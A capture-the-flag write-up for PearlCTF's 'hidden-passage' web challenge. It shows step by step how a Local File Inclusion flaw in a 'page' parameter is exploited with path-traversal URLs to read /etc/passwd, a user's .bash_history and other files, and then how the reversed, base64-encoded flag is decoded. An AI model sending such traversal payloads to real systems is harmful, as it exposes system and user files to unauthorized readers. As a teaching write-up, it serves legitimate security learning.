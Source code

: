 # Challenge description

APD messed up while setting up the system—now files are leaking! Can you help uncover the hidden secrets?

# Soluce

When you arrive and check the home page, there is this hint in comments:
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=home.php

```
Strange how everyone leaves a hint.txt when setting up a new profile... Maybe it's worth a look? 
```

I checked the source code of the other page and found the following comment:
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=info.php
```
 WARNING: Sensitive user credentials are stored in 'passwd'. Do NOT share.
```

I guessed that we can do a Local File Inclusion (LFI) attack by changing the `page` parameter:

http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=../../../../etc/passwd

That displays the content of the `/etc/passwd` file:

```shell
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin _apt:x:42:65534::/nonexistent:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin lfi-user:x:1001:1001::/home/lfi-user:/bin/bash fake-user:x:1002:1002::/home/fake-user:/bin/false
```

So, we can see that there is a user named `lfi-user` and `fake-user`. I tried to access the `lfi-user`'s home directory to find the "hint.txt" file:
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=../../../../home/lfi-user/hint.txt

This displays the following content:
```
The past holds secrets... People often retrace their steps to find what was lost. 
```

So I will try to access a bash history file to find the commands that were executed:
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=../../../../home/lfi-user/.bash_history

This displays the following content:
```shell
cat /var/www/html/page/dev_notes.txt ls /var/www/html/page/ 
```

I tried to access the `dev_notes.txt` file:
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=dev_notes.txt

This displays the following content:
```
The real prize isn’t here... It might be "hidden" in the shadows, just a few steps **behind** where you are looking. Only the curious will uncover the "flag". 
```

So I tried to find a hidden directory by accessing the `/var/www/html/` and `/var/www/` directories. When you put a bad path, the page displays the following message:
```
Warning: include(page/../../../../var/www/flag): Failed to open stream: No such file or directory in /var/www/html/index.php on line 56

Warning: include(): Failed opening 'page/../../../../var/www/flag' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 56
```

Si I tried a lot of paths and finally:
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=../../../../var/www/hidden/

This displays the following content:
```
Warning: include(/var/www/hidden): Failed to open stream: Success in /var/www/html/index.php on line 56

Warning: include(): Failed opening 'page/../../../../var/www/hidden/' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 56
```

So the flag is in the `/var/www/hidden/` directory. I tried to access the `flag` file:

http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=../../../../var/www/hidden/flag.php

This displays the following content:
```
95GMpVTdMNjbJ9VZMFjZfxGNjBDb7xmchVGc
```

![alt text](media/image.png)

When you look at the screen, the title is inverted and the text is written in reverse.

So with this script:
```python
encoded_string = "95GMpVTdMNjbJ9VZMFjZfxGNjBDb7xmchVGc"
reversed_string = encoded_string[::-1]
print(reversed_string)
```

You get:
```
cGVhcmx7bDBjNGxfZjFMZV9JbjNMdTVpMG59
```

And you can decode it with base64:

The flag is: `pearl{l0c4l_f1Le_In3Lu5i0n}`
